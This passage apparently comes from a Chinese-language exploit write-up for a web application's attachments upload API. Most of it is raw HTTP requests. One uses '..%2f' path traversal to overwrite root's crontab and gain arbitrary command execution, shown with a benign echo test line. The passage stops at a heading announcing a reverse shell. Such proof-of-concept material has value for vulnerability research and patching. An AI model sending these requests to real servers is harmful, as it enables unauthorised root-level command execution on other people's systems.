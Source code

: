 ```
------WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Disposition: form-data; name="files"; filename="test.txt"  
Content-Type: text/plain  
  
This is the content of the file.  
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9UJEjRROwibYFRFVx5xUrpU9wRF6GlXk1Y12b7V2GxWia4xBvrNUebnIA/640?wx_fmt=png&from=appmsg "")  
  
2.向定时任务中写入文件实现任意命令执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9pdx9JN4INYOmFe8hK8WSTic4qSMO49Sd8LlUn43JU74YMAicOvoM0cww/640?wx_fmt=png&from=appmsg "")  
  
```
POST /api/v1/attachments/..%2f..%2f..%2f..%2f..%2fusr/..%2fvar%2fspool%2fcron%2fcrontabs HTTP/1.1  
Host: yourURL  
Accept: application/json, text/plain, */*  
x-request-from: internal  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36  
Sec-Fetch-Site: same-origin  
Sec-Fetch-Mode: cors  
Sec-Fetch-Dest: empty  
Referer: http://localhost:3000/apikey  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Connection: close  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Length: 657  
  
------WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Disposition: form-data; name="files"; filename="root"  
Content-Type: text/plain  
  
# do daily/weekly/monthly maintenance  
# min   hour    day     month   weekday command  
*/15    *       *       *       *       run-parts /etc/periodic/15min  
0       *       *       *       *       run-parts /etc/periodic/hourly  
0       2       *       *       *       run-parts /etc/periodic/daily  
0       3       *       *       6       run-parts /etc/periodic/weekly  
0       5       1       *       *       run-parts /etc/periodic/monthly  
* * * * * echo "a" >> /tmp/test.txt  
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9kKUyV6BI4xq0jBZUHGLY4vo8P7V5tAq35BCIdb2FyyU8j4lauLZHGQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9ngF6Oh84ct9JWnQauKl9Z0K4Yib6AA0FZJlR0baC6fsYgW9IlyEnErQ/640?wx_fmt=png&from=appmsg "")  
  
3.反弹 shell  
  